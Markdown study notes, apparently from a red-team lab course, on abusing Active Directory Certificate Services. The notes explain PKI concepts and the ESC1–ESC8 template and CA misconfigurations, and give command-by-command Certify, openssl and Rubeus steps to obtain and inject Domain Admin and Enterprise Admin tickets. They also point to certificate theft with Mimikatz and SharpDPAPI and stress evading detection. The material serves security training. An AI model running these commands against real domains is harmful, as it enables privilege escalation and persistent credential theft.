# Cross Domain Attacks [ AD CS ]

+ Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest.
	+ Used by organization for smart cards, SSL certificates, code signing, etc.
+ Clients send certificate signing requests (CSRs) to an (enterprise) CA, which signs issued certificates using the private key for the CA certificate
+ AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more. 
+ "AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization."

## Terminologies 
+ **CA :** The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA. 
+ **Certificate :** Issued to a user or machine and can be used for authentication, encryption, signing etc. 
+ **CSR :** Certificate Signing Request made by a client to the CA to request a certificate.
+ **Certificate Template :** Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
+ **EKU OIDs :** Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

> In simpler terms, AD CS is a feature that allows you to create and manage digital certificates within your organization's active directory environment. These certificates can be used for secure authentication, encryption, and signing of various digital resources. The CA is the server responsible for issuing these certificates, and certificate templates provide a way to define the specific properties and uses of each certificate. EKU OIDs help determine the intended purposes of the certificates based on their associated templates.

---

## AD CS Concept in Depth

1. AD CS is a server role that functions as Microsoft’s public key infrastructure (PKI) implementation
	1. Used by organization for smart cards, SSL certificates, code signing, etc.
2. Clients send certificate signing requests (CSRs) to an (enterprise) CA, which signs issued certificates using the private key for the CA certificate

### NTAuthCertificates
+ An enterprise certificate authority generates a self signed certificate that is then included into the *NTAuthCertificates* Object into the Domain.
+ These are certificates that enable authentication for Active Directory
+ The **root** CA is the *DC-CA*
+ The **subordinate** CA is the *CA-CA*
+ Both of these, the private key associated with the certificates can be used to sign certificates that then can be used to allow authentication for Active Directory.



### Certificate Enrollment
1. The client needs to generate a public/private key pair.
2. Then the client needs to generate a CSR, also known as Certificate Signing Request. Its basically a message which contains information about the certificate they want to request. i.e. Like what its used for, example code signing, TLS. Contains info like the subject of the certificate or who ever is requesting the certificate. It also has a field which contains the template. In this step the CSR is sent to the Enterprise CA. The CA takes a look at the template, the template is basically a blueprint of settings that the certificate is going to have once its issued.
3. Assuming everything is correct and conforming if the user is allowed to obtain a certificate for what they are requesting. The CA will then sign a certificate using its private key and return it back to the client.



### Certificate Templates
+ CAs issue certificates with **"blueprint"** settings defined by certificate templates (stored as AD objects)
> Note: On the right side bottom we can view some EKU's (Enhanced Key Usages). Certain EKU's allow domain authentication. So if either **Client Authentication** or **Smart Card Logon** is used, then we can use that certificate to authenticate to AD. 



### Subject Alternative Names (SANs)
+ Allows additional identities to be bound to a certificate beyond the Subject
+ Can be dangerous when combined with certificates that allow domain authentication!
	+ AD maps certificates to user accounts using the SAN



### Using Rubeus to request for a certificate
+ Rubeus and Kekeo support Kerberos authentication using certificates via PKINIT
	+ Schannel authentication also supports certificates (e.g., LDAPS)

```powershell
# Rubeus
Rubeus.exe asktgt /user:admin /certificate:C:\Temp\cert.pfx /password:password
```



### **"Passive"** Certificate Theft
+ If hardware protection is not used, existing user/machine certificates are stored using DPAPI
	+ *Mimikatz* and *SharpDPAPI* can steal such certs/private keys


### **"Active"** Certificate Theft
+ Users/machines can enroll in any template they have Enroll permissions for
	+ By default the User and Machine templates are available
+ We want a template that allows for AD authentication
	+ Lets us get a user’s TGT (and NTLM!)
	+ Lets us compromise a computer through RBCD/S4U2Self
+ We can enroll through DCOM (Certify), RPC, and AD CS web endpoints

```powershell
# Certify
Certify.exe request /ca:da.theshrine.local\theshrine-DC-CA /template:user
```



### Offensive Advantages
1. Doesn’t touch `lsass.exe`’s memory!
2. Doesn’t need elevation (for user contexts)!
3. Few existing detection methods! (*currently* lesser known technique : )
4. Separate credential material from passwords
	1. Works even if an account changes its password!
	2. Long lifetime. By default, User/Machine templates issue certificates valid for 1 year.

---

# AD CS Abuse
+ There are various ways of abusing ADCS!
	+ Extract user and machine certificates
	+ Use certificates to retrieve NTLM hash
	+ User and machine level persistence
	+ Escalation to Domain Admin and Enterprise Admin
	+ Domain persistence

## Escalation Scenarios and Domain Persistence



### **ESC1**
1. General Requirements >> An EKU that allows authentication
2. [PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (i.e., EKU allows auth)
3. The ENROLLEE_SUPPLIES_SUBJECT flag

###  Methodology
> 1. Find vulnerable cert templates, keep note of the Template name
> 2. Request a template with the template name and using altname specify the user you want to attack
> 3. Using openssl generate the pfx from the private key and sign it with a password
> 4. Using Rubeus request a tgt with the admin pfx and inject it into the session 
> 5. Now we will be able to access the shares of the administrator

## Binaries
### 1. Search for vulnerable certificate templates
```powershell
# Certify
# Enumerate the templates
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject

# Enumerate vulnerable templates
Certify.exe find /vulnerable

# Enumerate vulnerable templates using ca
Certify.exe find /vulnerable /ca:dc.theshire.local\theshire-DC-CA
```



### 2. Enroll in the template 
```powershell
# Certify
Certify.exe request /cs:dc.theshire.local\theshire-DC-CA /template:ESC1Template /altname:Administrator

# CRTE Lab
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```



### 3. Change the RSA into a PFX
> Paste the Private key in a file named : *cert.pem*
```bash
# linux
# openssl and provide a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
```powershell
# windows
# openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

### 4. Request a TGT with the pfx
```powershell
# Rubeus
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```



### **ESC2**
1. General requirements
2. The Any Purpose EKU or No EKU

### **ESC3**
1. General requirements + no “enrollment agent restrictions”
2. The Certificate Request Agent EKU
3. Enrollment rights to template with a few other requirements

### **ESC4**
1. Vulnerable certificate template access control

### **ESC5**
1. Vulnerable PKI object access control

### **ESC6**
1. EDITF_ATTRIBUTESUBJECTALTNAME2 flag set on a CA
2. (Allows CSRs for ANY template to specify a SAN!)

### **ESC7**
1. Vulnerable CA access control
2. The ManageCA permission can be used to fixate ESC6

### **ESC8 - NTLM Relay to HTTP Enrollment Endpoints**
1. AD CS web enrollment endpoints are optional roles (but commonly installed)
	1. All of these endpoints are vulnerable to NTLM relay!
2. If there is a user-enrollable auth template
	1. Extends the window for user NTLM relay scenarios
3. If there is a machine-enrollable auth template
	1. Combine with printer bug for coerced auth
	2. I.e., take over ANY system in the domain running the spooler service!

## Stealing Certificates and Persistence



# References
> Medium article for ADCS Intro : https://posts.specterops.io/certified-pre-owned-d95910965cd2

> Black Hat PDF : https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-Certified-Pre-Owned-Abusing-Active-Directory-Certificate-Services.pdf

> Whitepaper : https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf

> ESC8 Attack : https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate

> Attacking ADCD : https://www.hackingarticles.in/domain-escalation-petitpotam-ntlm-relay-to-adcs-endpoints/

> Black Hat Video : https://www.youtube.com/watch?v=ejmAIgxFRgM
